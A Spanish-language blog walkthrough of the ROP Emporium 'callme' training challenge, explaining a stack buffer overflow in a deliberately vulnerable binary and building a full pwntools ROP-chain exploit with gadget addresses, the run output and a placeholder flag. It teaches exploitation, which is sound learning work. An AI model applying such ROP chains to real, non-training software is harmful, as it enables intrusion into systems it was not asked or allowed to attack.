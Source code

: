 ```yaml
---
layout: post
title: ROP emporium callme - Llamando multiples funciones 
author: c4rta
date: 2023-04-24
categories: [Explotacion binaria]
tags: [ROP]
---
```

Para resolver este desafio tenemos que llamar multiples funciones con multiples argumentos en el orden correcto


## Analisis

![](/assets/img/callme/1.png)

No tiene canary, PIE, pero tiene NX, asi que no podemos ejecutar codigo en el stack.

Al ver la funcion main, lo unico interesante es el llamado a la funcion ```pwnme```

![](/assets/img/callme/2.png)

Una vez en esa funcion, podemos ver la vulnerabilidad:

![](/assets/img/callme/3.png)

Vemos que esta intentando escribir ```0x200``` bytes (512 en decimal) de la entrada estandar (stdin), dado un buffer, pero... Te voy a demostrar por que es vulnerable.

Cuando se hace el llamado a ```read()```, se hace con esta estructura:

```c
ssize_t read(int fd, void *buf, size_t count);
```

El primer argumento ```fd```, se le conoce como ```file decriptor```, que en palabras simples, se usa para crear una entrada para un archivo, esa entrada se identifica con un numero unico

El segundo argumento es un puntero a un buffer, y este buffer se esta creando aca:

![](/assets/img/callme/4.png)

Podemos ver que se esta inicializando un buffer de ```0x20``` bytes (32 en decimal) con el nombre de ```buf```

El tercer argumento es la cantidad de bytes que va a escribir en ese buffer, que son ```0x200```.

Entonces representando la funcion con los valores, quedaria asi:

```c
ssize_t read(0, 32, 512);
```

Esta tratando de escribir ```512``` bytes en ```32```, y como no se esta limitando la cantidad de bytes ingresados, ese buffer de ```32``` bytes va a petar, es la clasica vulnerabilidad buffer overflow, por que se esta sobrepasando la cantidad del buffer, que son 32.

Al mostrar todas las funciones en radare, tenemos que existe una funcion que se llama ```usefulFunction```:

![](/assets/img/callme/5.png)

Al mostrar el codigo de la funcion:

![](/assets/img/callme/6.png)

Nos damos cuenta que esta llamando a las funciones ```callme_three```, ```callme_two``` y ```callme_one```, y se estan llamando con los argumentos ```rdi```, ```rsi``` y ```rdx```.

Como curiosidad, si intentamos mostrar el codigo de una funcion de esas, no vamos a poder, sale algo como esto:

![](/assets/img/callme/7.png)

Y eso es por que las funciones ```callme_three```, ```callme_two``` y ```callme_one``` se encuetran en PLT que se esta cargando dinamicamente de ```libcallme.so```, entonces para poder verlas, tenemos que ejecutar el binario, me ire a gdb y pondre un breakpoint en el ```ret``` de la funcion main:

```
0x0000000000400897 <+80>:	ret
```

Y ahora si ya podemos ver su codigo, y lo mas relevante es que cuando se hace un llamado a ```callme_one```, los argumentos que se le pasan los compara con:

- 0xdeadbeefdeadbeef
- 0xcafebabecafebabe
- 0xd00df00dd00df00d

![](/assets/img/callme/8.png)

(en ```callme_three``` y ```callme_two``` es lo mismo)

Asi que ahora sabemos que debemos de llamar a ```callme_three```, ```callme_two``` y ```callme_one``` con los valores con los que se comparan los registros ```rdi```, ```rsi``` y ```rdx```

## Crafteando el exploit

Para saber el desplazamiento para llegar al RIP, podemos generar una cadena con ```pattern create 100``` y pasaresela al programa, despues podemos hacer ```pattern offset $rbp```:

![](/assets/img/callme/9.png)

Y al sumarle 8 bytes, y nos da 40

Asi va esta ahora:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

```

Como tenemos que escribir en rdi, rsi y rdx, debemos que buscar un gadget que nos permita hacer eso, usare ROPgadget con el comando:

```
ROPgadget --binary callme | grep 'pop rdi ; pop rsi ; pop rdx ; ret'
```

Y este nos funciona: ```0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret```

Asi va el exploit:

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)
```

Despues ocupamos las direcciones de callme_one y las demas, eso lo podemos hacer con el comando ```afl``` en radare:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)
```

Y por ultimo tenemos que mandar el payload en el orden correcto, primero el padding, luego el gadget, los valores de los argumentos y la funcion, asi queda el exploit completo

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)

args = argumento_1 + argumento_2 + argumento_3

payload = padding + gadget + args + callme_one
payload += gadget + args + callme_two
payload += gadget + args + callme_three

p.sendline(payload)
print(p.recvall().decode())
```

Y ya tenemos la flag

```
󰣇  c4rta /tmp/callme  python3 exploit.py
[+] Starting local process './callme': pid 15024
[+] Receiving all data: Done (172B)
[*] Process './callme' stopped with exit code 0 (pid 15024)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/callme/SUSwaifu.gif)
<div align='center'>
    (soy ese)
</div>

